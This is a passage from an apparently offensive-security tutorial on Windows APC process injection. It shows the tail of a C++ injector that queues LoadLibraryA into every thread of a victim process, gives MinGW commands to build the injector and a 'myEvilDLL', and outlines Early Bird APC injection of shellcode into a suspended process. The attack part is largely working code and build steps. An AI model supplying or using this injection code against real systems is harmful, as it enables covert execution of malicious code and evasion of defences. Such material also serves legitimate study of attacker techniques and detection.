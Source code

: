 ```cpp
				threadIds.push_back(threadEntry.th32ThreadID);
			}
		} while (Thread32Next(snapshot, &threadEntry));
	}
	
	for (DWORD threadId : threadIds) {
		threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
		QueueUserAPC((PAPCFUNC) GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA"), threadHandle, (ULONG_PTR)shellAddress);
		Sleep(1000 * 2);
	}
	VirtualFreeEx(victimProcess, shellAddress, 0, MEM_RELEASE | MEM_DECOMMIT);
	return 0;
}
```

If we are cross compiling this with MinGW, our compile command will look a bit different, as we may need to statically link some libraries if our target does not already have them installed.

`x86_64-w64-mingw32-g++ -static-libgcc -static-libstdc++ -Wl,-Bstatic -lstdc++ -o <output>.exe APCDLLInjection.cpp`

Our compile command for our custom DLL should look the same however: `x86_64-w64-mingw32-gcc -shared -o myEvilDLL.dll basicDInjDLL.cpp`

# Early Bird APC Injection

The next variation we will discuss is called Early Bird APC Injection. This one allows us to get around the fact that we do not control _when_ our shellcode or malicious DLL is run in the remote thread. We will begin by creating a new process in a suspended state. 

After our new process is created, we will write our shellcode to a newly allocated memory buffer and queue an APC pointing to the shellcode to the main thread of this process. 

Once we resume the thread, our APC is executed!

# CreateProcess

The only new API call we use here is `CreateProcess`. It does exactly what it sounds like and is defined like so:
```cpp
BOOL CreateProcessA(
  [in, optional]      LPCSTR                lpApplicationName,
  [in, out, optional] LPSTR                 lpCommandLine,
  [in, optional]      LPSECURITY_ATTRIBUTES lpProcessAttributes,
  [in, optional]      LPSECURITY_ATTRIBUTES lpThreadAttributes,
  [in]                BOOL                  bInheritHandles,
  [in]                DWORD                 dwCreationFlags,
  [in, optional]      LPVOID                lpEnvironment,
  [in, optional]      LPCSTR                lpCurrentDirectory,
  [in]                LPSTARTUPINFOA        lpStartupInfo,
  [out]               LPPROCESS_INFORMATION lpProcessInformation
);
```
